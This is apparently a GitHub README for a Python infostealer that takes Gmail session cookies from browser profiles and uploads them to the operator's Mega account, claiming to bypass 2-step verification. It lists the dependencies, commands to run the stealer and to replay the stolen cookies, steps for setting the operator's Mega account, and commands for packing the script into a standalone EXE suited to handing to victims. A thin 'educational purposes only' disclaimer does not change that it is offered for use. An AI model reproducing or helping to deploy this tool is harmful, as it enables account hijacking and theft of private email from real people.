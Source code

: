 # Gmail Cookies Stealer

Steal All Profile Gmail Cookies On Browser And Upload To Your Mega Account. Also Bypass 2-Step Verifications

## Disclamer ⚠️

This tool is for educational purposes only; Any actions and or activities related to this tool are solely your responsibility. The used of this tool can result in criminal charges brought against the persons in question. I'll not be held responsible in the event any criminal charges be brought against any individuals misusing this tool to break the law. ❗


## Module Used

```python
chromedriver_autoinstaller==0.4.0
mega.py==1.0.8
selenium==4.4.3
undetected_chromedriver==3.1.5.post4
```
## Usage

This tool will work if user doesn't logout their Gmail Account in their browser.

### Install All Module

```python
  pip install -r requirements.txt
```
### Run Tool

```python
  #Steal cookies
  python cookies_stealer.py
  
  #Load cookies
  python load_cookies.py
```

### Load Cookies
Download Cookies file from your mega account and put into the same directory with load_cookies.py. Change line 11 with the same name of cookies file.


<img src="https://github.com/katakkentut/GmailCookieStealer/blob/master/screenshot/example-2.png">

### Convert To EXE

```python
  # Using Pyinstaller
  Pyinstaller --noconfirm --onefile cookies_stealer.py

  # recommend Using Nuitka
  py -m nuitka --mingw64 .\cookies_stealer.py --standalone --onefile 
 ```
 
### Change Account

Change line 47 and 48 to your own mega account

<img src="https://github.com/katakkentut/GmailCookieStealer/blob/master/screenshot/example-1.png">


 
 
